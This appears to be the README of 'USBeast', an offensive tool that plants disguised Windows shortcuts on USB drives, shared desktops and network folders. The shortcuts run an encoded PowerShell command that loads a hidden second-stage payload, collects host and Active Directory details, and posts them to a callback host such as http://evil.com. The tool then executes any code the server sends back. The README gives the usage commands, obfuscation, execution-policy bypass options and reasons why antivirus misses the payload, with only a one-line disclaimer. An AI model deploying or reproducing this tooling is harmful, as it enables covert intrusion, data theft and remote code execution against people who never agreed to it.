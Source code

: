 # USBeast - Weaponizing Shortcuts
PowerShell + Shortcuts = Fun.

USBeast creates a shortcut to PowerShell with an encoded command that invokes a secondary payload hidden in a file.
By default basic system information is gathered and sent towards a callback server. The default 'server.py' server awaits connections and writes the received callback information to a logfile.

Data returned by the server will be executed as PowerShell code.

The default scripts can be easily extended and it also allows the deployment of additional code (see payloads/readme.txt for more information).

![Cool Stuff](misc/icons.PNG)

## Basic usage
```
clone this git or download and extract the code
$ cd USBeast (or USBeast-master)
$ pip install -r requirements.txt
$ python usbeast.py -h
```
By default the following information is gathered on a target:
_Active Directory, Architecture, Domain, Domain Controller information, Hostname, Running Processes, Mounted SMB Shares, Current Username and Available Volumes._

#### USB drop

`python usbeast.py`

Automatically puts exploit code on newly attached USB devices, useful for mass-production.

#### Target other users on a PC

`python usbeast.py -o C:\Users\Public\Desktop -s "http://evil.com/images/evil.gif" -f Secret`

Creates a shortcut called Secret which runs the exploit code.
Callbacks will be sent to http://evil.com/images/evil.gif as Base64 encoded post-data.


#### Target a network

`python usbeast.py -o \\MyPublicNetworkFolder\ -s "http://evil.com/images/evil.gif" -f Data --fake-folder=Data --nocreate-fake-folder`

Creates a shortcut called Data which runs the exploit code and attempts to open an existing folder called Data.

### Why this still works?

- AVs do not attempt to read the .DSStore file since they mostly enforce a file-type whitelist. This is where all the fun stuff is hidden
- All code is eval'd using Invoke-Expression which (by default) is allowed without bypassing the ExecutionPolicy
- The callback code allows the use of HTTPS which hides suspicious network traffic
- No files are written to disk

## Advanced usage

```
Usage: usbeast.py [options]

Options:
  -h, --help            show this help message and exit
  -o OUTPUT, --output=OUTPUT
                        Output directory for files, if none is set the code
                        will automatically attempt to put the code on new USB
                        devices.
  -s SERVER, --server=SERVER
                        The connect back server, can be server.py or any other
                        HTTP(s) server. format: http://host{:optional
                        port}/{optional random file / directory name}
  -p, --pwn             Run additional code after callback is sent, see
                        payloads/readme.txt for more information
  -i ICON, --icon=ICON  Icon file, number. Use embedded DLL or EXE file for
                        custom Icons. shell32.dll works best in most cases,
                        see misc folder for number references
  --shell32-icon=SH32ICO
                        Shell32.dll Icon number
  -f INK_FILE, --filename=INK_FILE
                        Name of the shortcut file to create, default: Images
  --payload-file=PAYLOAD_FILE
                        Name of the (hidden) file which contains the actual
                        payload
  --fake-folder=FAKE_FOLDER
                        Create a fake folder and open once the code is
                        executed.
  --nocreate-fake-folder
                        Don't actually create the fake folder. When folder is
                        not found Quick Access is opened in explorer
  --obfuscate           Attempt to hide the content of the second stage file
                        by appending a lot of newlines
  -v                    Show verbose messages

  PowerShell options:
    PowerShell related configuration

    --bypass            Use ExecutionPolicy: Bypass, allows more advanced
                        features but might trigger AV
    --no-hide           Do not attempt to hide the PowerShell window
    --custom-path=CUSTOM_PATH
                        Custom path to powershell.exe, make sure this file
                        exists on the target.
    --relative-powershell
                        Use powershell.exe without the full path, only use if
                        powershell.exe is available in the current directory.
```

Like any exploitation tool, great power comes with great responsibility. Only use against yourself and targets you are allowed to pwn. I am not responsibly for any damage done by this tool.